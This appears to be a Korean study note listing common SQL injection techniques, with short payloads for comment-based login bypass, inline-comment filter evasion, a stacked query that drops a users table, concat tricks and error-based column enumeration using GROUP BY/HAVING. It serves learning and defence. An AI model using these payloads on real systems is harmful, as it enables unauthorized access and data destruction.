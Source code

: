 ## 💡 SQL Injection

자주 사용하는 하는 공격 쿼리

### 🧸 주석 처리
전달하고자 하는 SQL 쿼리문에서 뒤의 값들을 주석 처리하여 조건을 참으로 만든다.<br/>
주석: ****, --, #** 등

```
SELECT * FROM users WHERE userID='admin'--' AND userPW='password'
// userPW 값이 무엇이든 admin 계정으로 로그인 가능. 주석 처리를 의미하는 -- 이 존재하기 때문
```

주석은 값을 전달할 때 시그니처 필터링 우회, 공백 제거 등을 위해 사용하기도 한다.

```
DR/**/OP/*bypass filter*/Table
```

### 🧸 세미콜론(;) 사용
세미콜론(;)을 사용하여 쿼리를 종료하고 바로 다음 쿼리를 붙여 보낼 수 있다.

```
SELECT * FROM users; DROP users --
// users 값을 SELECT문으로 조회하고 DROP 시킨다.
```

한 개의 트랜잭션에서 다수의 쿼리를 처리할 수 있다는 의미. 하지만 해당 기능을 지원하지 않거나 DB 구조 배열에 따라 안 될 수도 있다.

### 🧸 문자열 연결 함수
필터식을 우회하기 위해 **concat**이라는 문자열 연결 함수를 사용한다. 

```
concat(string1, string2, string3...)
// = SELECT user || '-' || name FROM users 쿼리는 보통 username이라는 필터식을 우회하기 위해서 사용하는데 concat은 이와 같은 효과를 낼 수 있다.
```

### 🧸 GROUP BY, HAVING 구문
Error Based SQL Injection에 주로 사용되는 구문이다. HAVING과 GROUP BY를 함께 사용하여 GROUP BY에 의한 반환 값에 대해 필터링할 때 사용한다.<br/>
만약 에러가 발생한다면 해당 이슈가 발생한 첫 번째 컬럼 정보를 에러 메시지로 반환하여 사용자에게 노출할 수 있다.

```
GROUP BY table having 1=1 --
// error에 표시된 컬럼 값: firsterror1
GROUP BY table,firsterror1 having 1=1 --
// error에 표시된 컬럼 값: seconderror2
GROUP BY table,firsterror1,seconderror2 having 1=1 --
// error에 표시된 컬럼 값: thirderror3
GROUP BY table,firsterror1,seconderror2,thirderror3 having 1=1 --

// 에러 메시지에 표시된 다음 컬럼 값을 지속해서 에러 메시지가 표시되지 않을 때까지 반복한다.
```
